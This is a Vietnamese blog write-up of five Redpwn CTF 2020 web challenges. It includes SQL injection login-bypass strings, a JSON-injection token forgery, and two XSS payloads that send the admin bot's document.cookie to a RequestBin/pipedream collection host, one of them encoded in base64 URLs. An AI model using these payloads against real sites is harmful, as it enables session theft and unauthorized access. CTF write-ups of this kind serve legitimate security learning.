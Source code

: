 ```yaml
---
layout: post
title: Redpwn CTF 2020 - Web
subtitle: Web Security - CTF
tags: [ctf, web]
image: /img/redpwn.png
share-img: /img/redpwn.png
---
```


Nhân ngày đẹp trời đồ án mọi thứ xong xuôi vào chơi [ctf](https://ctftime.org/) thì thấy giải này nên apply chơi .. và nhận ra giải cực kì hay và chất lượng `well-made challenges` !


# Inspector General
<details>
    <summary>Challenge Description</summary>
    My friend made a new webpage, can you find a flag?
</details>

Chall nhìn qua thì nghe có vẻ phức tạp nhưng chỉ cần view source là thấy `flag`.
Đi đến `view-source:https://redpwn.net/` sẽ thấy flag ở `dòng 7`.

![Inspector-flag](../img/26062020/1.png)


***

<details>
  <summary>FLAG</summary>
  
  flag{1nspector_g3n3ral_at_w0rk}
</details>
 
***

# Login

<details>
  <summary>Challenge Description</summary>
  
  I made a cool login page. I bet you can't get in!
<br />
  Site: login.2020.redpwnc.tf
</details>

Nhìn sơ qua có vẻ như là chèn `simple SQLi`, nên đã thử `user: admin & pwd: 1' or '1'='1` hoặc `user: admin'; /*` sẽ alert ra flag.

<!-- ![Login-flag](../img/26062020/2.png) -->
<img src="/img/26062020/2.png" alt="Login flag" align="center"/>


***

<details>
  <summary>FLAG</summary>
  
  flag{0bl1g4t0ry_5ql1}
</details>

***

# Static-Pastebin

<details>
  <summary>Challenge Description</summary>
  
 I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

  Site: static-pastebin.2020.redpwnc.tf

  Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>

Chall này có thể hiểu theo cách đơn giản nhất là thông qua 2 sites của chall thì 1 site sẽ tạo URL và site còn lại upload URL kèm XSS đó lên và Bot Admin sẽ truy cập thông qua URL đó trả về cookie kèm theo flag. Chall này được gọi là Reflected-XSS.

![Static-pastebin-site-1](../img/26062020/3.png)

Cứ mỗi khi mình tạo đoạn text sẽ có vài kí tự bị filter và hiển thị không như ý mình muốn, nên sẽ xem qua code js xem nó handles như thế nào...

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

Chúng ta có thể thấy khi create đoạn text lên site 1 sẽ bị decode bởi `atob()` và sau đó đi vào `clean()` nó sẽ không cho phép tạo ra đoạn text nếu như cú pháp từng dấu ngoặc không như ý nên sẽ không thực thi.. như vậy lúc này mình sẽ cố bypass qua đoạn này, lúc đầu mình nghĩ đến `HTML Entities` nhưng nó sẽ không thực thi được nên 1 lúc sau bypass được

```
><img src=1 href=1 onerror="javascript:document.location='https://[RequestBinURL]?cookie='+document.cookie"></img>
```

`RequestBin` là công cụ như `container request` cung cấp cơ chế trong đó server-side sẽ gọi đến client-side khi bắt một sự kiện nhất định nào đó.

Mình đến site thứ 2 và upload đoạn đã decode kèm theo XSS ở site 1 vào

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPTEgaHJlZj0xIG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5rbms4ZnppbGtscC54LnBpcGVkcmVhbS5uZXQ/Y29va2llPScrZG9jdW1lbnQuY29va2llIj48L2ltZz4=
```

Lúc này khi Admin Bot ghé thăm site vừa upload, đoạn mã XSS sẽ lấy cắp cookie của Admin Bot và gửi đến chính server của mình ở đây là [RequestBin](https://requestbin.com/) lúc này mình sẽ nhận lại đoạn request như thế này và kèm theo flag:

<!-- ![Static-pastebin-flag](../img/26062020/4.png) -->
<img src="/img/26062020/4.png" alt="Static pastebin flag" align="center"/>


***

<details>
  <summary>FLAG</summary>
  
  flag{54n1t1z4t10n_k1nd4_h4rd}
</details>


***

# panda-facts

<details>
  <summary>Challenge Description</summary>
  
I just found a hate group targeting my favorite animal. Can you try and find their secrets? We gotta take them down!

Site: panda-facts.2020.redpwnc.tf
Download: `index.js`
</details>

Thật ra ngay từ đầu vẫn chưa tìm ra hướng giải chỉ cắm cúi ngồi suy nghĩ về mấy function trong file index.js kia và có biết chút về NodeJS nhưng vẫn chưa mường tượng ra điều cần phải làm, nên đã hỏi thử tác giả thì hint rằng `Try to inject it`. Oh đến đây mới ngắm nghía lại đặc biệt là function này..

```javascript
async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);

    const cipher = crypto.createCipheriv(algorithm, key, iv);

    const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`

    let encrypted = '';
    encrypted += cipher.update(token, 'utf8', 'base64');
    encrypted += cipher.final('base64');
    return encrypted;
}
```

Thật sự để ý vào structure để tạo token không phải `token.username = username` mà là theo form nhất định như này..

```javascript
const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`
```

Chỉ cần filter lại cho member khác 0, mình chỉ cần set lại username là `shinta","member":1,"user":"shinta` và truy cập vào `/api/flag`..

<!-- ```
{
  "success": true,
  "flag": "flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}"
}
``` -->
<img src="/img/26062020/5.png" alt="Panda facts flag" align="center"/>


***

<details>
  <summary>FLAG</summary>
  
  flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}
</details>

***

# static-static-hosting

<details>
  <summary>Challenge Description</summary>
  
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here

Site: static-static-hosting.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>

Phần này có vẻ tác giả upgrade lên 1 tí thay vì submite text thì được submit thẳng các tags HTML, vì thế mình đoán sẽ filter `script` nên cứ submit rồi xem thử, quả như dự đoán. Code của file `index.js`:

```javascript
function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

Vậy mình thử dùng `iframe` thẻ này nhúng HTML, text, picture, video hay link vào trong khung của chính mình.

```
<iframe src="javascript:window.location.href='https://[RequestBinURL].m.pipedream.net
?='+document.cookie">
```
Sau đó upcode sang site thứ 2 gửi cho Admin-bot

```
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6d2luZG93LmxvY2F0aW9uLmhyZWY9J2h0dHBzOi8vZDRkZTE1N2Q0NTRmZGY2OTM1ZWQwOTU0YjgyNmE0ZjUubS5waXBlZHJlYW0ubmV0Cj8nK2RvY3VtZW50LmNvb2tpZSI+
```
Hên quá test thử phát 1 ra liền, đỡ tốn công hihi

<img src="/img/26062020/6.png" alt="Static-static-bin" align="center"/>

***

<details>
  <summary>FLAG</summary>
  
  flag{wh0_n33d5_d0mpur1fy}
</details>


***

Mấy chal sau theo hổng kịp, chờ ngồi đọc write-up tìm hiểu thêm thôi :waiting:


![Alt Text](https://media.giphy.com/media/LycfkVG4L6x0Y/giphy.gif)
